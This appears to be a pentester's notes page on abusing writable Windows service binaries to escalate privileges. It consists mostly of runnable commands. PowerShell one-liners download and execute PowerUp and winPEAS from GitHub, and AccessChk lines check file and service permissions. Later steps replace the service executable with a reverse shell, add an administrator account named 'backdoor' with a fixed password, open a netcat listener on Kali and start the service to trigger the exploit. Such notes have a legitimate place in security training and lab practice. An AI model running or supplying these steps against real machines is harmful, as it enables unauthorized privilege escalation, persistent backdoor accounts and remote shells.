




manual
Github: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
1. Check for service misconfigurations:
◇ PowerUp.ps1 with method Get-ModifiableServiceFile
Enumerates all services by querying the WMI win32_service class. For each service, it takes the pathname (aka binPath) and passes it to Get-ModifiablePath to determine if the current user has rights to modify the service binary itself or any associated arguments.
If the associated binary (or any configuration files) can be overwritten, privileges may be able to be escalated.
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Get-ModifiableServiceFile

◇ WinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet servicesinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";

2. Confirm that we can modify the file
◇ AccessChk:
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -quvw 'C:\Program Files\File Permissions Service\filepermservice.exe'";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";

3. Confirm that we can START/STOP the service
◇ AccessChk:
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uvqc filepermsvc";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";

4. Create a backup of the original service executable:
C:\> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
5. Now we can overwrite the service executable, we have different possibilities:
◇ Copy the reverse shell executable to overwrite the service executable:
C:\> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
◇ Create a new Administrator account
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Install-ServiceBinary -Name 'filepermsvc' -Command “net user backdoor Password123! /add && timeout /t 5 && net localgroup Administrators backdoor /add”
6. Start a listener on Kali, and then start the service to trigger the exploit:
1) Listener on kali
root@kali:/# nc -nvlp 532) Start the service
C:\> net start filepermsvc

Bibliography:
• https://pentestlab.blog/2017/03/30/weak-service-permissions/